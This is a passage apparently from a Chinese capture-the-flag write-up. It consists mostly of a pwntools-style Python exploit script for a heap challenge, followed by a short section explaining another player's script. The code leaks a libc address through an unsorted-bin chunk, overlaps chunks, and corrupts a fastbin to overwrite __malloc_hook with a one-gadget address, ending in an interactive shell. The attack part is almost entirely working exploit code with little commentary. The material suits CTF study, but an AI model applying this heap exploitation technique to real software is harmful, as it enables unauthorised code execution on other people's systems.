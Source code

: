 ```
Delete(4)
Delete(2)

Show(6)

p.recvuntil("content: ")
leak_addr = u64(p.recv(6)+"\x00\x00")


main_arena_addr = leak_addr - 0x58
lib_addr = leak_addr - libc.symbols['__malloc_hook'] - 0x78 

#print "libc.symbols['__malloc_hook'] = " + hex(libc.symbols['__malloc_hook'])
print "leak_addr= " + hex(leak_addr)
print "lib_addr= " + hex(lib_addr)
#print "main_arena_addr= " + hex(main_arena_addr)
pause()
Delete(0)
Delete(1)
Alloc(0xa8,"A"*0xa7)#0
Alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x71) + p64(0) + p64(0))#1
Alloc(0x50, 'A' * 0x40+p64(0)+p64(0x71))#2
Alloc(0x80, 'A' * 0x80)#4
Alloc(0x80, 'A' * 0x80)#5

Delete(6)
Delete(1)

hook = lib_addr + libc.symbols['__malloc_hook'] - 0x13
#oneshot = lib_addr + 0x4526a
oneshot = lib_addr + 0x4647c  #local

Alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x70) + p64(hook) + p64(0))#1

Alloc(0x60,'A' * 0x60)#6
Alloc(0x60,'A' * 0x3 + p64(oneshot) + "\n")#7

p.interactive()
```

### 大佬的脚本解释
大佬的leak addr

```
alloc(0x30,'A' * 0x30)
alloc(0xf0,'A' * 0xf0)
alloc(0x70,'A' * 0x70)
alloc(0xf0,'A' * 0xf0)
alloc(0x30,'A' * 0x30)

pause()

free(1)
free(2)
#第一个堆块情况分析点
alloc(0x78,'B' * 0x60 + p64(0) + p64(0x110) + p64(0x180)) #1
#第二个堆块情况分析点
# chunk overlap
free(3)
alloc(0xf0,'A' * 0xf0) #2
#第三个堆块情况分析点
pause()
# libc leak
```
